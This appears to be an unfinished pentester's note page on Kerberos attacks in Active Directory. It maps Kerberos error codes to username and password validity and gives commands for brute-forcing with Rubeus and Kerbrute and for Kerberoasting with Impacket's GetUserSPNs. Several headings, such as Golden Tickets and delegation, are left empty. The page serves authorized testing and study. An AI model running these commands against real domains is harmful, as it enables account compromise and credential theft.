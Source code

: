 # Brute Force
We can brute force username and password based on the errors that we get from kerberos.
- `KDC_ERR_PREAUTH_FAILED`: Incorrect password
- `KDC_ERR_C_PRINCIPAL_UNKNOWN`: Invalid username
- `KDC_ERR_WRONG_REALM`: Invalid domain
- `KDC_ERR_CLIENT_REVOKED`: Disabled/Blocked user
### Rubeus
```powershell
./rubeus.exe brute /password:<password> /noticket
```
### Kerbrute (go)
1. User Enumeration
```bash
./kerbrute userenum -d mydomain.local usernames.txt
```
2. Password brute-force
```bash
cat user_password.txt | ./kerbrute -d mydomain.local bruteforce -
```
### Kerbrute.py
```bash
python kerbrute.py -domain mydomain.local -users user.txt -passwords pass.txt -dc-ip <ip>
```
# Kerberoast
- ST can be requested by any user for any service if it's [[Active Directory/AD Concepts/Services#SPN|SPN]] is registered in the domain.
- STs are encrypted with the service account which runs the service.
- Hence, we can try to crack the password of the service user account.
- In case of managed service accounts, the password is of 120 characters and changes every month, hence it is not possible to crack their password.
- However, some services are run with normal user accounts, managed by people, that can have weak password.
- Kerberoast deals with service running under regular user accounts. We can get STs for the services and crack their password.
We can query for users with SPNs with LDAP module or AD-RSAT module
- LDAP
```ladp
(&(samAccountType=805306368)(servicePrincipalName=*))
```
- AD-RSAT
```powershell

```
Impacket's `GetUserSPNs.py` script can be used to query users with SPN and request STs for the service.
```bash
# This will search for SPNs, request STs for the same using supplied credentials and same the STs in "kerberoast.hash"
python GetUserSPNs.py 'mydomain.local@a.drdragon:Password!!' -dc-ip <ip> -outputfile kerberoast.hash
```
# AS-REPRoast
# Pass the Key/Overpass the Hash

# Golden Tickets
# Silver Tickets
# Kerberos Delegations
### Unconstrained Delegation
### Constrained Delegation
# Pass the Key